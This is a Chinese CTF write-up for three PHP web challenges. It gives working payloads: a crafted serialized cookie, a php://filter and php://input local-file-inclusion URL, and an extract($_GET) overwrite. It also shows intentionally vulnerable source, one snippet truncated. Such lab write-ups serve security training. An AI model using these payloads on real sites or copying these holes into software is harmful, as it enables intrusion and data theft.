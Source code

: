 根据提示访问http://127.0.0.1/ctfoj/bdctf.php?hint 得到源码。
带上`Cookie: BDCTF=s:21:"BDCTF:www.bluedon.com"%3b ` 即可得到`flag{pBXeeZdOkG1QTP1}` 。cookie中的分号要url编码一下。

```php
<?php  
error_reporting(0);  
$KEY='BDCTF:www.bluedon.com';  
include_once("flag.php");  

$cookie = $_COOKIE['BDCTF'];  

if(isset($_GET['hint'])){  
    show_source(__FILE__);  
}  
elseif (unserialize($cookie) === "$KEY")  
{     
    echo "$flag";  
}  
else {  foo
```

#### 蓝盾管理员

> you are not bd-admin，格式bdctf{xxx}
> http://2a8da10821f39ea335a12fba77f7c3fc.yogeit.com:8080

访问`view-source:http://2a8da10821f39ea335a12fba77f7c3fc.yogeit.com:8080/?file=php://filter/convert.base64-encode/resource=flag.php&user=php://input` 同时post `the user is bdadmin` 得到`bd-admin!<br>PD9waHAgIA0KLy9iZGN0ZntMZmlfQW5EX01vcmV9ICANCj8+ ` ，解码后得到`bdctf{Lfi_AnD_More} `

```php
//index.php
<!--  
@$user = $_GET["user"];  
@$file = $_GET["file"];  
  
if(isset($user)&&(file_get_contents($user,'r')==="the user is bdadmin")){  
    echo "hello bd-admin!<br>";  
	include($file); //flag.php  
}else{  
    echo "you are not bd-admin ! ";  
}  
 -->  
```

#### 送大礼

> 格式bdctf{xxx}
> http://04c432a12784d2fb5ef431ec3366bc9a.yogeit.com:8080

访问 `http://04c432a12784d2fb5ef431ec3366bc9a.yogeit.com:8080/flag.txt`  有jsfuck，[解开](http://codertab.com/jsunfuck) 后内容如下：

```php
extract($_GET);  
if(isset($bdctf))  
{      
  $content=trim(file_get_contents($flag));
  if($bdctf==$content)
  {
    echo'bdctf{**********}';
  }    else
  { 
    echo'这不是蓝盾的密码啊';
  } 
}
```
